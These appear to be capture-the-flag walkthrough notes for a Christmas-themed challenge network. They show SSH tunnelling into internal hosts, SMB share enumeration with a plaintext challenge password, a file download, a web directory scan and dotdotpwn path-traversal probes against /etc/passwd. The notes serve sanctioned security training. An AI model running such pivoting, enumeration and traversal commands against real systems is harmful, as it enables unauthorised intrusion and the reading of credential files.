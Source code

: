 

## Windows SMB Server

```
ssh -L 139:10.142.0.7:139 -L 445:10.142.0.7:445 -L 135:10.142.0.7:135 -L 3389:10.142.0.7:3389  alabaster_snowball@l2s.northpolechristmastown.com
```


```
smbmap -u alabaster_snowball -p stream_unhappy_buy_loss -d workgroup -H 127.0.0.1 -R
[+] Finding open SMB ports....
[+] User SMB session establishd on 127.0.0.1...
[+] IP: 127.0.0.1:445	Name: localhost                                         
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	FileStor                                          	READ ONLY
	.\
	dr--r--r--                0 Wed Dec  6 22:51:45 2017	.
	dr--r--r--                0 Wed Dec  6 22:51:45 2017	..
	-r--r--r--           255520 Sun Dec 17 08:33:12 2017	BOLO - Munchkin Mole Report.docx
	-r--r--r--          1275756 Mon Dec  4 21:04:34 2017	GreatBookPage3.pdf
	-r--r--r--           111852 Sun Dec 17 08:31:32 2017	MEMO - Calculator Access for Wunorse.docx
	-r--r--r--           133295 Wed Dec  6 22:47:47 2017	MEMO - Password Policy Reminder.docx
	-r--r--r--            10245 Wed Dec  6 23:28:21 2017	Naughty and Nice List.csv
	-r--r--r--            60344 Wed Dec  6 22:51:47 2017	Naughty and Nice List.docx

```


```
smbget -U alabaster_snowball smb://127.0.0.1/FileStor/GreatBookPage3.pdfPassword for [alabaster_snowball] connecting to //FileStor/127.0.0.1: 
Using workgroup WORKGROUP, user alabaster_snowball
smb://127.0.0.1/FileStor/GreatBookPage3.pdf                                                    
Downloaded 1,22MB in 13 seconds
```

## Mail Server with custom Cookie based encryption


```
ssh -L 143:10.142.0.5:143  -L  8080:10.142.0.5:80 -L 25:10.142.0.5:25 -L 2222:10.142.0.5:22 -L 2525:10.142.0.5:2525 -L 3000:10.142.0.5:3000  alabaster_snowball@l2s.northpolechristmastown.com
```


```
$ dirb http://127.0.0.1:8080

---- Scanning URL: http://127.0.0.1:8080/ ----
+ http://127.0.0.1:8080/index.html (CODE:200|SIZE:11321)                                      
+ http://127.0.0.1:8080/info.php (CODE:200|SIZE:90820)   

./dotdotpwn.pl -m http -h 127.0.0.1 -x 8080 -M GET
[*] HTTP Status: 400 | Testing Path: http://127.0.0.1:8080/..%00%u2216..%00%u2216..%00%u2216..%00%u2216etc%u2216issue
[*] HTTP Status: 400 | Testing Path: http://127.0.0.1:8080/..%00%u2216..%00%u2216..%00%u2216..%00%u2216..%00%u2216etc%u2216passwd
```
